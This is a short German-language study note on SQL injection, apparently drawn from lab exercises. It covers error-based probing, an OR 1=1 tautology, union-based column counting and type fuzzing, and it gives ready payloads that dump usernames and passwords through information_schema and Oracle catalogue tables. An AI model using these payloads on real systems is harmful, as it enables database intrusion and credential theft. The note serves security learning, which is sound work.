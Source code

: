 Zu unterscheiden in "Error Based" oder "Union Based".

# Error-Based
```sql
// Input
www.random.com/app.php?id =' // Das Hochkomma 
// Output
You have an error in your SQL syntax...
```
Weitere In-Band Attacken
```sql
https://insecure-website.com/products?category=Gifts'+OR+1=1--
//White-Box
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1 
```

# Union-Based
## Regeln:
- Die nummer und die Sortierung der Spalten muss in allen Queries gleich sein
- Datentypen müssen kompatibel sein

## Order by
```sql
select title, cost from product where id =1 order by 1
```
Wieviele Spalten gibt es? `order by 1 / order by 2 / ..`

## NULL Werte
```sql
select title, cost from product where id =1 UNION SELECT NULL -- 
```
### Fehlermeldung
> All querie combined usimg a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists.

```sql
 UNION SELECT NULL, NULL --
 ```
## Type Fuzzing
```sql
 UNION SELECT 'a', NULL --
 UNION SELECT NULL, 'a' --
 ```
 
# Beispiele
## Data-Dump
```sql
SELECT name, description FROM products WHERE category = 'Gifts'
// Attacker
' UNION SELECT username, password FROM users-- 
```
## Userdatenbank Dump
```sql
'UNION SELECT NULL, column_name from information_schema.columns where table_name = 'users_vqefss'-- -
'UNION SELECT NULL, column_name from information_schema.columns where table_name = 'users_vqefss'-- -
'UNION SELECT NULL, username_ffsvnz||'~'||password_xsxwsc from users_vqwfss-- -
```

```sql
' UNION SELECT NULL, table_name from all_tables-- -
' UNION SELECT NULL, column_name from all_tab_columns where table_name = 'USERS_ARYAKV'-- -
' UNION SELECT USERNAME_SXIGRZ, PASSWORD_DJNVYM from USERS_ARYAKV-- -

```
